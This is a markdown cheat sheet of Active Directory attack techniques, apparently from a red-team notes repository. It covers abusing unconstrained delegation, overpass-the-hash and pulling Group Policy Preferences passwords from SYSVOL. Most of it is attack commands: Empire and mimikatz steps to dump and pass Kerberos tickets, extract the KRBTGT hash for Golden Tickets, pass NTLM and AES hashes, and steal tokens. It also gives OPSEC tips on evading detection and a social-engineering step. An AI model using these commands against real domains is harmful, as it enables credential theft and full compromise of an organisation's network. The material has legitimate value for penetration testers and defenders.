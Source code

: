 #### Unconstrained Delegation  

"Double-hop" Kerberos issue was solved with unsconstrained delegation. When the user requests a service ticket for a service running on the server wich has an unconstrained delegation, the DC takes a copy of the user's TGT, puts it into the service ticket (LSASS) and delivers it back to the user. This feature can be abused to compromise the AD.  

  - ```Get-DomainComputer -Unconstrained``` --> Enumerate computers with Kerberos unsconstrained delegation.  
  - ```Get-DomainUser -AllowDelegation -AdminCount``` --> Identify privileged users with unprotected credentials against systems having unconstrained delegation.  
  - Compromise the Server with unconstrained delegation.  
  - Admin with unprotected credentials must connect to the server featuring unconstrained delegation over a Kerberos Service. (Social Engineering)
  - ```usemodule credentials/mimikatz/command*```
  - ```set Command sekurlsa::tickers /export``` --> Dump available tickets using Empire.  
  - ```usemodule credentials/mimikatz/command```  
  - ```set Command kerberos:ptt <ticket_file_name>``` --> Pass the ticket using mimikatz.  
  - ```usemodule lateral_movement/invoke_psremoting```  
  - ```set listener http```  
  - ``` set ComputerName <DC>``` --> Powershell remoting to connect to the DC using the Admin ticket.  
  - ```usemodule credentials/mimikatz/command```  
  - ```set Command sekurlsa::krbtgt``` --> Dump KRBTGT Account's password hash to create Golden Tickets.   

#### OverPass-the-Hash (Making the best of NTLM password hashes)  

Pass-the hash attacks are detected with event 4624 and mitigated within newer systems. Clearing out all the kerberos encryption keys that are on a system and injecting a NTLM password hash, we can take that password hash and switch it over so that we're effectively using a Kerberos Ticket. **OPSEC SAFE**.  

  - Mimikatz executed on a compromised machine and Domain Admins NTLM password hash found.  
  - ```mimikatz # sekurlsa::pth /user:<USER> /domain:<DOMAIN> /ntlm:<HASH>``` --> Will likely cause an alert since the encryption method of the Encrypted_Timestamp field of AS_REQ message is being downgraded. **NOT OPSEC SAFE**  
  - ```usemodule credentials/mimikatz/command```  
  - ```set Command sekurlsa::ekeys``` --> Extract AES Keys first to make OPTH attack stealthier.  
  - ```usemodule credentials/mimikatz/command```  
  - ```set Command sekurlsa::pth /user:<USER> /domain:<DOMAIN> /aes256:<AES256_KEY> /aes128:<AES128_KEY> /ntlm:<NTLM_HASH> /run:notepad.exe``` --> Execute a process to steal the token later.
  - ```steal_token <Notepad_PID>``` --> Steal process token.  
  - ```shell dir \\<DC>\C$``` --> Use stolen token!  

#### Pivoting with Local Admin & Passwords in SYSVOL  

Password reuse is a common for local admin accounts. Although Microsoft issued a patched that no longer stores passwords in Group Policy Preferences, if they were there before the patch, they wont be deleted.  

  - ```\\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\``` --> All GPP are stored here and are world readable.  
  - ```%LOGONSERVER%``` --> 
  - [Get-GPPPassword.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1) --> Find and extract GPP Passwords.  
  - [Finding Passwords in SYSVOL & Exploiting Group Policy Preferences](https://adsecurity.org/?p=2288).  
  - [Find-GPOPassword.ps1](https://github.com/zloeber/PowerShellProfile/blob/master/Scripts/Get-GPOPassword.ps1) --> More comprehensive work finding GPP Passwords.  
  - *cpassword* --> Key value to find inside the XML GPP files.  
